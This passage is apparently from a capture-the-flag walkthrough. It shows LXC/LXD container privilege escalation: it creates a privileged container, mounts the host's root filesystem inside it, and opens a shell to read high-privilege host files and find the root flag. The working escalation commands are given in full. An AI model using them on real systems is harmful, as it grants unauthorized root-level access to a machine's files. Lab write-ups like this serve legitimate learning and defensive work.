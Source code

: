 Note: `security.privileged=true` value is used for forcing the container to interact as root with the host filesystem otherwise, when we try to access to the mounted file system, on the high privilege folders we get `Permission denied`.

The set of commands to do these steps are:
```
lxc init privesc pvtcontainer -c security.privileged=true
lxc config device add pvtcontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start pvtcontainer
lxc exec pvtcontainer /bin/sh
```
Now we can interact inside the container system, and since we mounted the victim file system on it, we can access on files of target system by:
```
ls /mnt/root/
```
It is the root folder of the victim machine file system. Since you set the `security.privileged=true` flag, you can access and manage also high privileged files. At this point, you can search for the root flag.